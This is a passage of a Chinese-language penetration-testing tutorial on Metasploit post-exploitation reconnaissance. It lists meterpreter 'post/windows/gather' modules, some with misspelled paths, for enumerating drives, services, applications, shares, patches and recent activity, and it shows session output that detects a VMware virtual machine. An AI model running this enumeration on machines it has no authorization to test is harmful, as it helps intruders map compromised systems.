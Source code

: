 ps： payload和target的86位和64位。

## 后渗透模块之信息收集

* 获取目标机器的分区情况： `post/windwos/gather/forensics/enum_drives`
* 判断是否为虚拟机 `post/windows/gather/checkvm`
* 开启了哪些服务  `post/windwos/gather/enum_services`
* 安装了那些应用： `post/windows/gather/enum_applications`
* 查看共享：  `post/windows/gather/enum_shares`
* 获取主机最近的系统操作： `post/windows/gather/dumplinks`
* 查看安装补丁：  `post/windows/gather/enum_patches`
* scraper脚本
* winenum脚本

post按 tab，

```
meterpreter > run post/
Display all 229 possibilities? (y or n)
```		

与windows相关的模块

```
meterpreter > run post/windows/
Display all 185 possibilities? (y or n)
```

gather是收集的意思。

forensics 取证

```
meterpreter > run post/windows/gather/forensics/
run post/windows/gather/forensics/browser_history  run post/windows/gather/forensics/imager
run post/windows/gather/forensics/duqu_check       run post/windows/gather/forensics/nbd_server
run post/windows/gather/forensics/enum_drives      run post/windows/gather/forensics/recovery_files

```

获取分区：

```
meterpreter > run post/windows/gather/forensics/enum_drives 

Device Name:                    Type:   Size (bytes):
------------                    -----   -------------
<Physical Drives:>
<Logical Drives:>
\\.\D:                               4702111234474983745
\\.\E:                               4702111234474983745
```

判断是否为虚拟机，

```
meterpreter > run post/windows/gather/checkvm 

[*] Checking if ADMIN-PC is a Virtual Machine ...
[+] This is a VMware Virtual Machine
```
